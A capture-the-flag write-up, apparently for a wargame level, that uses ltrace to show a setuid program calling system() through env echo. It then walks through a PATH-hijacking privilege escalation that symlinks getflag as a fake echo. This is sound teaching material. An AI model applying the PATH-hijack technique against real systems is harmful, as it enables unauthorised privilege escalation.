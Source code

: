 # Level03

## Initial Check

When logged in as the Level03 user, we find a file named `level03` in the directory. First, we examine this file using the `ltrace` command.

```bash
ltrace ./level03
__libc_start_main(0x080484a4, 1, 0xbffff854, 0x08048510, 0x08048580 <unfinished ...>
getegid()                                      = 2003
geteuid()                                      = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me")        <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed>                           = 0
+++ exited (status 0) +++
```

## Analysis

1. When executed, the program runs the command `/usr/bin/env echo Exploit me` using the `system()` function
2. This command will use the first `echo` command found in the PATH variable
3. We can manipulate the PATH variable to execute our desired command

## Solution Steps

1. First, we create a fake `echo` command in the `/etc` directory:
```bash
ln -s /bin/getflag /etc/echo
```

2. We update the PATH variable to include the `/etc` directory:
```bash
export PATH=/etc:$PATH
```

3. We run the program:
```bash
./level03
```

## Explanation

In this level, we exploit a privilege escalation vulnerability by manipulating the PATH variable. When the program executes the `echo` command, it checks the directories specified in the PATH variable sequentially. By adding the `/etc` directory to the beginning of PATH, we make the program execute our fake `echo` command (which is actually a symbolic link to the `getflag` command).
